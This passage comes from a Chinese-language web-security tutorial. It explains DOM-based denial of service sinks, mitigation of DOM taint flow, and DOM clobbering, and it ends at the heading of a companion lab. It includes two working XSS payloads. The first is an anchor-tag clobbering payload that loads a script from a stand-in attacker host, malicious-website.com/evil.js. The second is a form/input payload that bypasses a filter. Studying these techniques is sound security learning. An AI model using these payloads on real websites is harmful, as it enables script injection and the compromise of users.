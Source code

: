 就是将用户输入以不安全的方式传入一个有可能会消耗大量计算资源的API中

### <a class="reference-link" name="%E5%93%AA%E4%BA%9Bsink%E5%8F%AF%E4%BB%A5%E5%AF%BC%E8%87%B4%E5%9F%BA%E4%BA%8EDOM%E7%9A%84%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%BC%8F%E6%B4%9E%EF%BC%9F"></a>哪些sink可以导致基于DOM的拒绝服务漏洞？
- requestFileSystem()
- RegExp()
### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E7%BC%93%E8%A7%A3%E5%9F%BA%E4%BA%8EDOM%E7%9A%84%E6%B1%A1%E7%82%B9%E6%B5%81(taint-flow)%E6%BC%8F%E6%B4%9E%EF%BC%9F"></a>如何缓解基于DOM的污点流(taint-flow)漏洞？

上面那么多种情况，总结一点，想要缓解这种漏洞只能对传递到sink的值进行严格地审查，设置白名单，然后根据上下文严格对其进行编码。没有很容易的防护手段。

### <a class="reference-link" name="DOM%20clobbering"></a>DOM clobbering

### <a class="reference-link" name="%E4%BB%80%E4%B9%88%E6%98%AFDOM%20clobbering%EF%BC%9F"></a>什么是DOM clobbering？

梨子目前还并未找到关于这个专有名词比较贴切的中文翻译。DOM clobbering就是注入HTML利用DOM篡改页面中的JS脚本。常见做法就是通过锚点元素覆盖全局变量，当应用程序使用该变量时触发。起名clobbering意为利用DOM覆盖现有的JS脚本，有捣乱的含义。

### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E5%88%A9%E7%94%A8DOM%20clobbering%EF%BC%9F"></a>如何利用DOM clobbering？

JS开发者比较常用这样的模式<br>`var someObject = window.someObject || `{``}`;`<br>
如果我们可以控制HTML，则可以利用DOM节点去破坏对someObject的引用。例如

```
&lt;script&gt;
  window.onload = function()`{`
    let someObject = window.someObject || `{``}`;
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
  `}`;
&lt;/script&gt;
```

想要利用这段代码我们可以构造这样的payload<br>`&lt;a id=someObject&gt;&lt;a id=someObject name=url href=//malicious-website.com/evil.js&gt;`<br>
这条payload可以通过插入id相同的节点覆盖原有的节点，然后利用值为url的name属性破坏指向外部脚本的someObject对象的url属性。

另外一种手段就是使用form元素搭配一个如input元素去破坏DOM属性。例如破坏attributes让过滤器失去作用，这样就可以让之前无法注入的属性重新可以注入了。例如<br>`&lt;form onclick=alert(1)&gt;&lt;input id=attributes&gt;Click me`<br>
因为我们将id也设置为attributes，过滤器会在input属性中进入死循环，则会允许执行后面本来应被过滤的危险属性。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA1%EF%BC%9A%E5%88%A9%E7%94%A8DOM%20clobbering%E5%8F%91%E5%8A%A8XSS"></a>配套靶场1：利用DOM clobbering发动XSS
